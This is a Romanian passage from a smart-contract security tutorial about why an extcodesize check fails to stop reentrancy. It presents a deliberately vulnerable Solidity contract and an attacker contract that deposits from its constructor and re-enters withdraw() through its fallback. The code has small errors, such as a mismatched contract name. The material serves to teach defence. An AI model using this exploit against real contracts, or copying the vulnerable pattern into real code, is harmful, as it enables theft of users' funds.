 Ai putea lua în calcul să învingi re-intrarea împiedicând orice contract inteligent să interacționeze cu codul tău. Când cauți stackoverflow, găsești acest fragment de code (snippet) cu tone de voturi pozitive:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Pare să aibă sens: contractele au cod, dacă apelantul are orice cod, nu-i permite să depună. Hai să-l adăugăm:

```solidity
// ACEST CONTRACT ARE VULNERABILITATE INTENȚIONATĂ, NU COPIA
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- LINIE NOUĂ
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Acum, pentru a depune ETH, nu trebuie să ai codul de contract inteligent în adresa ta. Totuși, acest lucru este ușor de învins cu următorul contract Atacator:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- Linie nouă
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
